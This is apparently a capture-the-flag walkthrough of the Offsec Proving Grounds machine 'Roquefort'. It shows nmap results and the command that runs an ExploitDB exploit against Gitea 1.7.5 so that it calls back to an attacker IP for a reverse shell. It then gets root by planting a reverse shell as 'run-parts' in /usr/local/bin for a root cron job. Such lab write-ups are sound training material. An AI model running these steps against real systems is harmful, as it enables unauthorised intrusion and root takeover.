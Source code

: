 # Roquefort

## Info

Roquefort is an intermediate linux machine from offsec proving grounds.

## Nmap

All tcp port scan.

```
21/tcp   open   ftp     syn-ack ttl 61 ProFTPD 1.3.5b
22/tcp   open   ssh     syn-ack ttl 61 OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
2222/tcp open   ssh     syn-ack ttl 61 Dropbear sshd 2016.74 (protocol 2.0)
3000/tcp open   ppp?    syn-ack ttl 61
```

## User

Gitea version 1.7.5 on port 3000 is vulnerable to the following exploitDB script.

```
/usr/share/exploitdb/exploits/multiple/webapps/49571.py
```

Set up a listener and execute.

```
python3 gitea_1_12_5.py -t http://192.168.179.67:3000 -u pentester -p password123 -I 192.168.45.214 -P 3000
```

## Root

After uploading pspy32, there is a cronjob running a run-parts binary.

Upload a reverse shell with the same name to the following directory and wait for a shell.

```
/usr/local/bin
```
